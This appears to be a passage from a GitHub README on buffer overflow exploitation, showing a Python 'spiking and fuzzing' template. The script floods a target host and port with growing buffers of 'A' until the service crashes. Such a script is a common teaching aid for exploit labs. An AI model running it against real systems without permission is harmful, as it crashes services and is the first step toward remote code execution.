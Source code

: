 The below is the Python templates for the different stages of BOF.

### Spiking & Fuzzing
```
#!/usr/bin/python

import socket,sys
from time import sleep

buffer = "A" * 500
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 500
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
